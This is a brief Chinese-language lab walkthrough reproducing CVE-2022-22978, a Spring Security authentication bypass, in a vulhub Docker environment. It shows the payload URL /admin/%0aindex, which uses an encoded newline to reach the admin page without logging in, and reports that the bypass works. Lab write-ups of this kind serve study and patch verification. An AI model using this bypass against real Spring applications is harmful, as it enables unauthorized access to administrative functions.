




# 一、环境搭建
1. 使用vulhub环境，vulhub/spring/CVE-2022-22978，docker启动环境
	
2. 访问http://IP:8080，进入如下界面
	
# 二、漏洞复现
1. 后台路径为/admin，直接访问会error
	
2. 将后台url改成如下，再次访问
	```shell
	http://IP:8080/admin/%0aindex
	```
3. 如下，成功绕过认证进入后台
	